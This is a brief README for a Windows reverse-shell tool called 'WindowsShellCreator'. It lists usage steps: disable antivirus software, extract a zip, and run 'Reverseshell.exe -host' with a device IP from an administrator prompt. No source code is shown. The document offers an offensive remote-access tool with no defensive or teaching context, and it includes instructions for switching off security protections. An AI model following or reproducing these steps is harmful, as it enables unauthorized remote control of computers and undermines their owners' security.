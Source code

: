 # WindowsShellCreator
### (Unstable Version)

## How to Use ?
#### 1. Disable AntiVirus Software
#### 2. Download Zip File 
#### 3. Extract File
#### 4. Open CMD or Powershell as Administrator 
#### 5. type "Reverseshell.exe -host 'your device ip'"


### Note : It is Unstable Version So it may not work on all devices
